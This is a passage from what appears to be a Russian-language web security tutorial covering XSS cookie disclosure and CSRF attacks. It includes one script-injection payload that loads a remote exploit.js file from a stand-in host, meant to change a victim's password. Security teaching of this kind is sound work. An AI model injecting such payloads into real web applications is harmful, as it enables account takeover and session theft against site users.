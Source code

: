 После того, как мы введем нашу полезную нагрузку и нажмем `ok`, мы увидим, что появляется окно предупреждения со значением cookie в нем:

![Диалоговое окно, отображающее значение cookie и кнопку 'Закрыть'.](https://academy.hackthebox.com/storage/modules/75/web_apps_xss_2.jpg)

Эта полезная нагрузка обращается к дереву документа `HTML` и извлекает значение объекта `cookie`. Когда браузер обрабатывает наш ввод, он будет рассматриваться как новый `DOM`, и наш `JavaScript` будет выполнен, отображая значение cookie обратно нам во всплывающем окне.

Злоумышленник может использовать это для кражи сеансов cookie и отправки их себе, а затем попытаться использовать значение cookie для аутентификации в учетной записи жертвы. Та же атака может быть использована для выполнения различных типов других атак против пользователей веб-приложения. `XSS` является обширной темой, которая будет подробно рассмотрена в последующих модулях.








# 1.9 Подделка межсайтовых запросов (CSRF)

---

Третий тип уязвимости фронтенда, вызванный нефильтрованным пользовательским вводом, - это [Подделка межсайтовых запросов (CSRF)](https://owasp.org/www-community/attacks/csrf). Атаки `CSRF` могут использовать уязвимости `XSS` для выполнения определённых запросов и вызовов `API` в веб-приложении, к которому жертва в данный момент аутентифицирована. Это позволило бы атакующему выполнять действия от имени аутентифицированного пользователя. Они также могут использовать другие уязвимости для выполнения тех же функций, например, использование HTTP-параметров для атак.

Распространённая атака `CSRF` для получения привилегированного доступа к веб-приложению - это создание полезной нагрузки `JavaScript`, которая автоматически изменяет пароль жертвы на значение, установленное атакующим. Как только жертва просматривает полезную нагрузку на уязвимой странице (например, вредоносный комментарий, содержащий полезную нагрузку `JavaScript` `CSRF`), код `JavaScript` выполняется автоматически. Он использует зарегистрированную сессию жертвы для изменения её пароля. После этого атакующий может войти в учётную запись жертвы и контролировать её.

`CSRF` также может быть использован для атаки на администраторов и получения доступа к их учётным записям. Администраторы обычно имеют доступ к чувствительным функциям, которые иногда могут быть использованы для атаки и получения контроля над серверной частью (в зависимости от функциональности, предоставляемой администраторам в данном веб-приложении). Следуя этому примеру, вместо использования кода `JavaScript`, который возвращает cookie сессии, мы загрузили бы удалённый файл `.js` (`JavaScript`), как показано ниже:

```html
"><script src=//www.example.com/exploit.js></script>
```

Файл `exploit.js` содержал бы вредоносный код `JavaScript`, который изменяет пароль пользователя. Разработка `exploit.js` в данном случае требует знания процедуры изменения пароля этого веб-приложения и `API`. Атакующему необходимо создать код `JavaScript`, который реплицирует желаемую функциональность и автоматически выполняет её (то есть код `JavaScript`, который изменяет наш пароль для этого конкретного веб-приложения).

---

